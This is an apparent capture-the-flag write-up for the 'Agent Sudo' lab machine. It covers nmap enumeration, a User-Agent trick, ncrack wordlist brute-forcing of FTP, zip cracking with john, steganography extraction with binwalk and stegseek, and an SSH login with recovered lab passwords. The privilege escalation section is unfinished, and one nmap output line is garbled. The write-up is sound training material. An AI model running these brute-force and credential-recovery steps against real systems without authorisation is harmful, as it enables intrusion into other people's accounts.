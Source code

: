 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Resolution

### 1. Enumerate
Let's start enumerating the machine using nmap:
```
Nmap scan report for 10.10.130.231
Host is up (0.081s latency).
Not shown: 997 clFrom,<br>
Agent Rosed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Iteresting, we have a web server, an FTP server, and an SSH agent.\
Navigating to the web page, we get the following message
> Dear agents,
>
> Use your own codename as user-agent to access the site.
>
> From,\
> Agent R

The message mentions the `User-Agent` http header. There should be a perticular codename that will give us access to more pages in the web app.
Back to the hint in the room description, `C` is the actual user-agent that should be used. We can use many tools to edit the user-agent header; a browser plugin, burpsuite, curl, ...

Once the request made, we get redirected to `/agent_C_attention.php`:
> Attention chris,
>
> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
>
> From,\
> Agent R

Our agent's name is Chris.

### 2. Hash-cracking and brute force

Chris' password is weak as agent J said, so it's most likely that we would be able to crack it using a standard wordlist attack on the FTP server.
We can use different tools to do so, here is the command snippet using `ncrack` alongside the `rockyou` wordlist (username.txt contains one entry which is chris):
```
$ ncrack -U username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.130.231 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2024-02-15 19:13 UTC
Stats: 0:00:59 elapsed; 0 services completed (1 total)
Rate: 8.70; Found: 1; About 0.00% done
(press 'p' to list discovered credentials)
Discovered credentials for ftp on 10.10.130.231 21/tcp:
10.10.130.231 21/tcp ftp: 'chris' 'crystal'
caught SIGINT signal, cleaning up
```

Found the password of chris. Now we can connect to the server and get all the files out there.\
```
$ ftp chris@10.10.130.231

Connected to 10.10.130.231.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45850|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

First intersting file should be the message to agent J:

> Dear agent J,
>
> All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
>
> From,\
> Agent C

The password of J is somewhere in on of the pictures. This technique is called steganography. We can use `binwalk` to extract (`-e`) embded files and executable code:

```
$ binwalk cutie.png   

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

$ binwalk -e cutie.png
```

`binwalk` creates a folder with all the extracted data. The Zip archive is protected with a password which we can use `john` to brute force: First, get the hash of the password from the archive using `zip2john`, and second, launch the brute force attack:
```
$ zip2john 8702.zip > zip.hash

$ john zip.hash
```

After some time we get the password `alien`. Note that `john` used a default wordlist and that we can specify our own wordlist using `-wordlist:FILE`.
Inside the arhive, we find the following file `To_agentR.txt`:

> Agent C,
>
> We need to send the picture to 'QXJlYTUx' as soon as possible!
> 
> By,\
> Agent R

Nothing interresting but let's keep the info for the moment.\
Next, a steg(steganography) password is demanded. There are many tools to do so, again, by brute force. `stegseek` is one of them.
```
$ stegseek cutie.png /usr/share/wordlists/fasttrack.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[!] error: the file format of the file "cutie.png" is not supported.

$ stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt  
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

In addition to the passphrase, `stegseek` outputs the embedded file too, in this case `message.txt`:
> Hi james,
>
> Glad you find this message. Your login password is hackerrules!
>
> Don't ask me why the password look cheesy, ask agent R who set this password for you.
>
> Your buddy,\
> chris

### 3. Capture the user flag

Now that we have access to James credentials, we can connect to the machine via ssh.\
Once there, first thing we find is the user flag. Then, another alien picture `Alien_autospy.jpg`.

For those who have no idea about the context, me included, the hint is important. In short, I refer you to the Foxnews article intitled "Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment".

### 4. Privilege escalation

```
$ uname -a

Linux agent-sudo 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

TBC











